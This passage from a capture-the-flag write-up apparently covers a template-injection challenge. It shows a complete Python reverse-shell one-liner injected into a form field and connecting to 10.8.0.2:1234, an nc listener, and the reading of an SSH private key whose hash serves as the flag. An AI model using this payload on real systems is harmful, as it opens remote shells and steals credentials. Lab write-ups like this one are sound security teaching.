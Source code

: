 Looking at the fingerprint field, we can see the value field has `datetime.now()` in it.
This is a python function used for getting timestamps, so we can guess the server is using python.

We can now try to inject a reverse shell into the value field by placing it between the curly brackets:
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.8.0.2',1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);
```
Note the use of single quotes `'`, this is because using double quotes will escape the value field.

(Sorry I couldn't show this properly but markdown has a weird thing with double curly braces 😕)
It should be: 
```
id="fingerprint" value="Generated \{\{<reverse shell text here>\}\}"
```
(without the backslashes)

Start a nc listener before clicking generate and submitting the request, so the reverse shell will have something to connect to:

![/assets/images/cybersci/track3/5.png](/assets/images/cybersci/track3/5.png)

We now have user on the server. 😀

We can find the private key in `.ssh/id_ed25519`:

![/assets/images/cybersci/track3/7.png](/assets/images/cybersci/track3/7.png)

To get the SHA1SUM of the file, which is the flag, I used the following site `https://emn178.github.io/online-tools/sha1_checksum.htm`, and got the following hash: `420426fe4f9297e8e2ca35de289490427cc9509c`

We have now completed challenge 1. ![/assets/images/cybersci/doge.gif](/assets/images/cybersci/doge.gif)

Now on to challenge 2.
